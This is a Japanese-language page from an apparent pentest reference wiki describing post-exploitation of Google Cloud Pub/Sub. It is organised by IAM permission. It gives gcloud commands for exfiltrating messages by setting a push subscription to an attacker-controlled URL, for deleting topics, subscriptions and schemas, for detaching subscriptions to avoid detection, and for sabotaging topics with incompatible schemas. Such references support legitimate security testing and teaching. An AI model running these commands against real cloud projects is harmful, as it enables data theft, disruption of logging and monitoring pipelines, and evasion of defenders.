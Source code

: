 # GCP - Pub/Sub ポストエクスプロイテーション

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Pub/Subに関する詳細情報は、以下のページを確認してください：

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

トピックにメッセージを公開します。これは、**予期しないデータを送信**し、予期しない機能をトリガーしたり、脆弱性を悪用するのに役立ちます：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

メッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。\
サブスクリプションが接続されていても、トピックを削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などのトピックの設定を更新して妨害します。

### `pubsub.topics.setIamPolicy`

以前の攻撃を実行するための権限を自分に与えます。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバー内のすべてのメッセージを取得します：
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
サブスクリプションを作成し、**メッセージをプル**するために使用します:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除する** は、ログ処理システムやそれに類似するものを妨害するのに役立つ可能性があります:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Queryテーブル、バケット）に保存されるように設定を更新するか、単にそれを妨害します。
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

攻撃を実行するために必要な権限を自分に付与します。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックに攻撃して、メッセージがそれを満たさないようにし、したがってトピックが中断されます。\
スキーマがない場合は、作成する必要があるかもしれません。
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

これはスキーマを削除するように見えるかもしれませんが、スキーマに適合しないメッセージを送信することができます。しかし、スキーマが削除されるため、実際にはどのメッセージもトピックに入ることはありません。したがって、これは**無駄です**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

攻撃を実行するために必要な権限を自分に付与します。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

これは、すべての未ACKメッセージのスナップショットを作成し、それらをサブスクリプションに戻します。攻撃者にはあまり役に立ちませんが、ここにあります:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
